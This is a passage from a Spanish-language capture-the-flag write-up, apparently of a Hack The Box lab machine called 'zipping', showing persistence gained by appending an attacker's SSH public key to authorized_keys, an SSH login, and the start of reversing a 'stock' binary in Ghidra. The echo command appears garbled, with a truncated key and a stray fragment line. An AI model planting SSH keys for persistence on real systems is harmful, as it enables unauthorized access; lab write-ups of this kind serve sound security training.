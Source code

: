 Ya que la shell no es muy estable, voy a establecer persistencia añadiendo mi clave pública al `authorized_keys`

```shell
rektsu@zipping:/home/rektsu/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCs/aNkke9LIHvwrIqFLiLavlSa5gVzvG6EibfhsRDbRY0DLzVMaWw2TmVJ/sjcWBg7DqGFJaJ70cqh7rCX9WYQnUTQUoo..." > authorized_keys
<hQlNkARQb9XM8= pointedsec@parrot" > authorized_keys
```

```shell
$ ssh rektsu@10.129.252.223
Welcome to Ubuntu 22.10 (GNU/Linux 5.19.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings

Last login: Sat Aug  3 20:04:00 2024 from 10.10.14.80
rektsu@zipping:~$
```

## Reversing `stock`
Abriendo el binario en `ghidra`

Vemos la contraseña.
![Write-up Image](images/Screenshot_16.png)

Si la contraseña es válida, vemos que con `dlopen()` se carga una librería compartida. Pero el nombre de esta está ofuscado.
![Write-up Image](images/Screenshot_17.png)
